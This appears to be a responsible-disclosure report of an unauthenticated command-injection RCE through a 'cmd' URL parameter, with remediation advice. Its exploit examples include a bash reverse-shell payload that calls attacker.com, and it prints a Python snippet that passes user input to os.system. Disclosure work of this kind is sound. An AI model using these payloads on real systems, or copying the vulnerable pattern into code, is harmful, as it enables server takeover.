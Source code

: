 # 🐞 Remote Code Execution (RCE) Vulnerability Report

---

## 📌 Title

**Unauthenticated Remote Code Execution (RCE) in `cmd` Parameter**

---

## 📝 Description

A critical Remote Code Execution (RCE) vulnerability was discovered in the `cmd` parameter of the application. The input from the user is passed directly to the server-side command interpreter without validation or sanitization, allowing arbitrary system commands to be executed remotely.

---

## 🧪 Vulnerable Endpoint

- **URL**: `https://vulnerable-website.com/execute?cmd=`
- **Method**: `GET`
- **Parameter**: `cmd`

---

## 🚨 Severity

- **CVSS Score**: 10.0 (Critical)
- **Impact**: Complete system compromise
- **Access Vector**: Remote, unauthenticated

---

## 🧪 Steps to Reproduce

1. Open a browser or Burp Suite.
2. Navigate to the vulnerable endpoint:

```
https://vulnerable-website.com/execute?cmd=whoami
```

3. Observe the server's response:

```
www-data
```

4. Test further commands:

```
https://vulnerable-website.com/execute?cmd=uname+-a
```

5. Response:

```
Linux ubuntu 5.15.0-67-generic #74-Ubuntu SMP x86_64 GNU/Linux
```

✅ These outputs confirm direct command execution on the server.

---

## 💣 Exploit Examples

### 🔍 Basic Command Execution

```bash
https://vulnerable-website.com/execute?cmd=whoami
```

### 📂 List Directory

```bash
https://vulnerable-website.com/execute?cmd=ls+-la
```

### 💻 Reverse Shell (Linux)

```bash
https://vulnerable-website.com/execute?cmd=bash+-c+'bash+-i+>&+/dev/tcp/attacker.com/4444+0>&1'
```

⚠️ For PoC only. Do not execute on production systems.

---

## 🎯 Impact

- Full server compromise
- File system access
- Credential dumping
- Lateral movement within the network
- Persistent access (backdoors)
- Sensitive data exfiltration

---

## ⚙️ Affected Components

- Improperly handled user input in server-side command functions
- Lack of input sanitization or command restrictions
- Use of insecure APIs such as `os.system`, `exec`, `popen`, etc.

---

## 🔧 Example Vulnerable Code (Python)

```python
# ❌ Vulnerable
@app.route('/execute')
def execute():
    cmd = request.args.get('cmd')
    os.system(cmd)
```

---

## 🛡️ Recommended Remediation

- Never use user input directly in system calls.
- Use a whitelist of commands if command execution is absolutely necessary.
- Use secure alternatives like subprocess with argument lists:

```python
# ✅ Secure
subprocess.run(["ls", "-la"], check=True)
```

- Implement strict input validation.
- Disable unnecessary system functionality (e.g., shell access).
- Run applications with limited OS permissions (non-root).
- Monitor for command injection attempts in logs.

---

## 🔐 Security Best Practices

- Use Web Application Firewalls (WAF)
- Perform regular code audits and pen testing
- Apply least privilege to web services
- Monitor outbound traffic for reverse shell activity
- Log all command execution attempts

---

## 🧾 References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [GTFOBins - Unix Commands](https://gtfobins.github.io/)
- [PayloadsAllTheThings - RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: Raghav  
- **Tools Used**: Burp Suite, Manual Testing, cURL  
- **Severity**: Critical

---

> ⚠️ **Disclaimer**: This report is part of responsible disclosure. Kindly confirm the vulnerability and acknowledge the report.